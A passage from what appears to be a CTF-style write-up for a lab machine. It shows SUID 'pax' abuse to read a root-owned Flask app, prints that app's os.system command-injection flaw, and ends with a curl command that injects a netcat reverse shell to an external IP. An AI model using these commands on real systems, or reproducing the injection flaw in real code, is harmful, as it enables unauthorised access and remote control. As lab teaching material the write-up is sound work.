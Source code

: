 There is a file in ‘/root/webapp/app.py’ which is hosting this simple HTTP service. However, we cannot have access to /root folder.

Enumeration is the key.

When searching for the SUID files, we found that `pax` command has SUID permission and we can abuse this to read the content of the file.

```jsx
LFILE=file_to_read
pax -w "$LFILE"
```

We can view the content of this file through changing the above command.

```jsx
plumber@plumber:~$ LFILE="/root/webapp/app.py"
pax -w "$LFILE"
/root/webapp/app.py010064400000000000000000000011111450271307700132670ustar00rootrootfrom flask import Flask, request, render_template
import os

app = Flask(__name__)

# Define the route for the home page
@app.route('/', methods=['GET','POST'])
def index():
    if request.method == 'POST':
        # Get the user input from the form
        user_input = request.form.get('user_input')
        # Print the user input to the console
        print("User Input:", os.system(user_input))
    elif request.method == 'GET':
        return "Cannot resolve GET request"

#    return render_template('index.html')

if __name__ == '__main__':
    app.run(debug=True, port=10080)
plumber@plumber:~$
```

The following command can be used to get a reverse shell.

```jsx
plumber@plumber:~$ curl -XPOST localhost:10080 -d "user_input=busybox nc 192.168.47.128 12342 -e sh"
```

![https://i.ibb.co/nMqKpjx/last.png](https://i.ibb.co/nMqKpjx/last.png)

Thank you for Reading!!